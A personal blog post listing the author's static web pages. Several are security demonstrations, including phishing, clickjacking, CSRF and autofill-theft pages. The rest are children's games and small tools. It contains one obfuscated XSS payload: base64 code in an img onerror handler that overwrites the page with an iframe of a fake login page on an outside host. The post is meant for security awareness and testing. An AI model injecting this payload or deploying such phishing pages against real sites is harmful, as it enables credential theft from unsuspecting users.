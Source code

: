 ```yaml
---
title: "Useful static apps! (Updated)"
date: 2020-04-21T20:15:45+10:00
draft: false
---
```


Sometimes i make static pages for single purpose and they can be quite useful so i will just leave them here

### For security

Here  is a simple page to show case some useful Content Security Policy (CSP) tricks for protecting apps from XSS [https://cspdemo.surge.sh/](https://cspdemo.surge.sh/). I find sharing this page and some explanation get buy in from developers a lot quicker.

Here is my example to show why it is a good idea to host user's provided content, especially ones where user has full control over, SSRF/proxied-pages in a completely separated domain. Google is no exception: [http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com](http://webcache.googleusercontent.com/search?q=cache:https://cornmbank.com). This way cross origin policy will protect your web app from being attacked with XSS style attack.

Here is a fun XSS trick i had... This is useful when you notice your variable being injected/server-side render straight into an inline script code block [https://htmlweird.surge.sh/](https://htmlweird.surge.sh/). This trick mess with how browser first parse HTML document to figure out different HTML tags and not having any context about Javascript.

A fun fake login page: [https://cornmbank.com/fakelogin.html](https://cornmbank.com/fakelogin.html) you can either iframe it 
This is example to rewrite the html body and change it to our fakelogin page:
```
<img src=x onerror=eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9IjxpZnJhbWUgc3JjPVwiaHR0cHM6Ly9lYmZlLnB3L3NoYXJlZC9mYWtlbG9naW4uaHRtbFwiIHN0eWxlPVwid2lkdGg6MTAwJTsgaGVpZ2h0OjEwMHZoXCIgLz4i'))>
```

QRCode generator using js library https://ebfe.pw/shared/qr.html

My phishing page to show case IDN homograph attack: [https://cornmbank.com/](https://cornmbank.com/), it used to get internal ip ranges using webrtc but that seems to be broken nowand it uses a nice trick at the bottom to determine what social network you are logging into.

Open blank-Changing parent tab <-- does what it says:
https://ebfe.pw/shared/changeparent.html

CSRF test page generates a csrf form submit page base off your "copy as curl command" from burp. Although under engagementtool you do have a generate cfrf PoC page anyway. :p Oh well, whateva [https://ebfe.pw/shared/csrfpage.html](https://ebfe.pw/shared/csrfpage.html)


Pikachu is a static page that would try to steal your autofill info. put ?debug=true at the end of the url to see how it work or ?cc=true and see if it can steal creditcard autofil stuffs
[http://ebfe.pw/shared/pikachu.html](http://ebfe.pw/shared/pikachu.html). Unfortunately chrome has made it more obvious by showing the drop down selection for autofill values.

This page used to clickjack your browser and make your facebook like a page about picklecat :)
[http://www.cornmbank.com/picklecat.html](http://www.cornmbank.com/picklecat.html). Unfortunately my picklecat page was removed and with the Chrome fix for SameSite, this may not be a problem sooner or later. That said, you could potentially modify the source to make an useful demo.


### Games for kids and adults =))

A cardgenerator app i made to create printable A4 pages of card game for security training (for the best experience, use cardstock paper): [https://cardgenerator.surge.sh/](https://cardgenerator.surge.sh/)

Same concept as above, i made a flashcard generator for my wife to use to teach childcare kids: [http://new-motion.surge.sh/](http://new-motion.surge.sh/)


StarRealm deck building game simple point counter [https://ebfe.pw/shared/star.html](https://ebfe.pw/shared/star.html)


Arm wrestling bible (Made after I lost at arm wrestling to a much bigger dude) [https://ebfe.pw/shared/wrestling.html](https://ebfe.pw/shared/wrestling.html)

A hangman game for kindies kid... with image hint after 6 wrong pick [https://wordplay.surge.sh](https://wordplay.surge.sh) - Although perhaps it is not suitable for children since it is..."hang man" ...

A text-to-speech scenario game for kids: [https://tinyadventure.surge.sh](https://tinyadventure.surge.sh). The idea is to act it out and follow the narative for each scenario.

### Randoms


Code Highlight using JS that you can use to copy to word document: [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)

QRCode generator using js library [https://ebfe.pw/shared/qr.html](https://ebfe.pw/shared/qr.html)

A cidr calculator page that include calculation for terraform cidrsubnet() function. [https://ebfe.pw/shared/highlight.html](https://ebfe.pw/shared/highlight.html)
